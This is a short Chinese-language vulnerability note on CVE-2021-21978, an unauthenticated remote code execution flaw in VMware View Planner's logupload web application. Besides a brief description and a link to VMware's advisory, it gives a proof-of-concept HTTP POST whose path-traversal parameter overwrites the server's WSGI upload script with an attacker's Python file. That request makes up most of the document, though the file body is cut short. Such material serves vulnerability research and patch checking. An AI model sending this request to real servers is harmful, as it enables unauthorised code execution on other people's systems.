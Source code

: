 # 

# VMware View Planner 未授权RCE CVE-2021-21978

## 漏洞描述

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

参考链接：

- https://www.vmware.com/security/advisories/VMSA-2021-0003.html

## 漏洞复现

poc：

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=---WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import jsom

....
```

![image-20221207141859357](images/image-20221207141859357.png)
